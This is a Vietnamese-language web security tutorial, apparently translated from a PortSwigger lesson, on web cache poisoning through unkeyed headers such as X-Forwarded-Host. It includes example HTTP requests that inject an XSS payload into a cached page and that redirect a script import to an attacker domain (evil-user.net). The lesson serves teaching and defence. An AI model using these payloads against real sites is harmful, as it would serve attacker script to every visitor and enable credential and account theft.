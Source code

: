 # Exploiting cache design flaws

Trong phần này, chúng ta sẽ xem xét kỹ hơn cách các lỗ hổng đầu độc bộ nhớ đệm web có thể phát sinh do các lỗi chung trong thiết kế bộ nhớ đệm. Chúng tôi cũng sẽ trình bày cách khai thác những lỗi này.

Tóm lại, các trang web dễ bị đầu độc bộ nhớ đệm web nếu chúng xử lý dữ liệu đầu vào không có khóa theo cách không an toàn và cho phép lưu trữ các phản hồi HTTP tiếp theo. Lỗ hổng này có thể được sử dụng làm phương thức phân phối cho nhiều cuộc tấn công khác nhau.

# Using web cache poisoning to deliver an XSS attack

Có lẽ lỗ hổng đầu độc bộ nhớ đệm web đơn giản nhất để khai thác là khi dữ liệu đầu vào không có khóa được phản ánh trong phản hồi có thể lưu vào bộ nhớ đệm mà không được khử trùng đúng cách.

Ví dụ, hãy xem xét yêu cầu và phản hồi sau:

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Tại đây, giá trị của tiêu đề X-Forwarded-Host được sử dụng để tạo động URL hình ảnh Open Graph, sau đó được phản ánh trong phản hồi. Quan trọng đối với việc đầu độc bộ nhớ đệm web, tiêu đề X-Forwarded-Host thường không được khóa. Trong ví dụ này, bộ nhớ đệm có khả năng bị nhiễm độc bằng phản hồi chứa tải trọng XSS đơn giản:

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

Nếu phản hồi này được lưu trong bộ nhớ đệm, tất cả người dùng đã truy cập `/en?region=uk` sẽ được phục vụ tải trọng XSS này. Ví dụ này chỉ khiến cảnh báo xuất hiện trên trình duyệt của nạn nhân, nhưng một cuộc tấn công thực sự có khả năng đánh cắp mật khẩu và chiếm đoạt tài khoản người dùng.

# Using web cache poisoning to exploit unsafe handling of resource imports

Một số trang web sử dụng tiêu đề không có khóa để tạo URL động nhằm nhập tài nguyên, chẳng hạn như tệp JavaScript được lưu trữ bên ngoài. Trong trường hợp này, nếu kẻ tấn công thay đổi giá trị của tiêu đề thích hợp thành tên miền mà chúng kiểm soát, chúng có khả năng thao túng URL để trỏ đến tệp JavaScript độc hại của chúng.

Nếu phản hồi chứa URL độc hại này được lưu vào bộ nhớ đệm, tệp JavaScript của kẻ tấn công sẽ được nhập và thực thi trong phiên trình duyệt của bất kỳ người dùng nào có yêu cầu có khóa bộ nhớ đệm trùng khớp.

```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

--- 

## Ví dụ: Web cache poisoning with an unkeyed header

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header




























